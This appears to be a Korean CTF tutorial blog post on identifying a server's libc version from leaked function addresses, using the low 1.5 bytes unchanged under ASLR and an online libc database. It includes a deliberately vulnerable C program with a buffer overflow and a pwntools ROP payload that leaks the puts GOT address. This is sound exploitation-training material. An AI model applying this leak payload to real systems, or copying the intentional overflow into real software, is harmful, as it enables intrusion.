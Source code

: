 ## Introduction
ROP를 해야하는데 CTF에서 libc 파일을 주지 않았을 경우엔 주최측 서버의 libc 버전을 추측해야하는 상황이 생깁니다.

이 때, ASLR이 걸려도 하위 1.5바이트는 변하지 않음을 이용해 libc 버전을 알아낼 수 있습니다.

## libc-database search
파일로 된 libc-database도 있지만 이번 실습에 이용할 것은 [libc database search](https://libc.blukat.me)입니다.

![1](/image/libc-database/1.png)

쿼리문에 leak해서 얻어낸 함수와 주소를 입력하면, libc 버전과 유용한 offset들을 나타내줍니다.

## Practice
아래의 C 파일을 바탕으로 실습하도록 하겠습니다.

```C
// Compile: gcc -o libc-database libc-database.c -fno-PIE -no-pie -fno-stack-protector -z execstack
#include <stdio.h>
#include <unistd.h>

int main(){
        char buf[0x30];

        setvbuf(stdin, 0, _IONBF, 0);
        setvbuf(stdout, 0, _IONBF, 0);

        puts("[*] Leak libc version");
        printf("Buf: ");
        read(0, buf, 0x100);

        return 0;
}
```

매우 간단한 BOF 문제이며 아래의 payload를 통해서 2개의 함수 주소를 leak 해보겠습니다.

```python
from pwn import *

context.log_level = 'debug'

r = process("./libc-database")
e = ELF("./libc-database")

pop_rdi = 0x401283

# Leak puts(read)
payload = b"A" * 56
payload += p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts'])

r.sendafter(": ", payload)

print(hex(u64(r.recv(6) + b"\x00"*2)))
```

실행하면 아래와 같은 결과값이 나옵니다. (*__이해를 돕기 위해서 몇몇 부분 각색하였습니다__*)

```shell
[*] puts: 0x7f0872b3d5a0
[*] read: 0x7f4a1aa14130
```

위 payload에서는 귀찮음의 이유로 한 번에 하나의 주소만 leak하였지만 정확한 libc를 얻기 위해서는 2~3개의 데이터가 필요합니다. 이렇게 나온 값들을 아까의 페이지에 삽입하게되면 아래 사진과 같이 libc version과 offset이 나오게됩니다.

![2](/image/libc-database/2.png)

실제로 사용됬던 libc-2.31.so가 찾아짐을 확인할 수 있습니다.

![3](/image/libc-database/3.png)

## Conclusion
지금까지 나온 이야기를 종합하면 하나의 결론에 도달할 수 있습니다.<br /><br />

* *__함수 주소 하위 1.5바이트는 변하지 않음을 이용해__* libc version을 예측할 수 있습니다.
* *__최대한 많은 함수의 주소값__*을 알아야 예측 범위를 좁힐 수 있습니다.

## Reference

* [libc-database 사용하기](https://s1m0hya.tistory.com/20)